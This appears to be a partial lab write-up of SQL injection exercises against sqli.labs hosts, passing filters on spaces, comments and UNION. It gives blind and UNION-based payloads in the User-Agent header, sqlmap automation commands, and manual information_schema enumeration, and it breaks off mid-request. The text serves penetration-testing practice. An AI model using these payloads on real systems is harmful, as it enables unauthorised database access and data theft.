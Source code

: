 SQLMap Automation:

```
sqlmap -u 'http://1.sqli.labs/' -p user-agent --random-agent --banner
```

### SQLi 2

```bash
UNION and standard payloads like 1='1 are filterer.

PoC, False Blind:
GET / HTTP/1.1
Host: 2.sqli.labs
User-Agent: ' or 'elscustom'='elsFALSE


PoC, True Blind:
GET / HTTP/1.1
Host: 2.sqli.labs
User-Agent: ' or 'elscustom'='elscustom


# SQLMap Automation:
sqlmap -u 'http://2.sqli.labs/' -p user-agent --user-agent=elsagent --technique=B --banner
```

### SQLi 3

Los espacios están filtrados.

PoC:

```bash
GET / HTTP/1.1
Host: 3.sqli.labs
User-Agent: '/**/UNION/**/SELECT/**/@@version;#

# SQLMap Automation:
sqlmap -u 'http://3.sqli.labs/' -p user-agent --random-agent --technique=U --tamper=space2comment --suffix=';#' --union-char=els --banner
```

### SQLi 4

Comentarios no más largos trabajo.

PoC:

```bash
GET / HTTP/1.1
Host: 4.sqli.labs
User-Agent: 'UNION(select('PoC String'));#


# We cannot easily automate this task, as sqlmap should balance the parentesis.
# To exploit by hand you have to first find the tables in the current database:


GET / HTTP/1.1
Host: 4.sqli.labs
User-Agent: 'union(SELECT(group_concat(table_name))FROM(information_schema.columns)where(table_schema=database()));#

Then you can enumarate the columns:

GET / HTTP/1.1
Host: 4.sqli.labs
```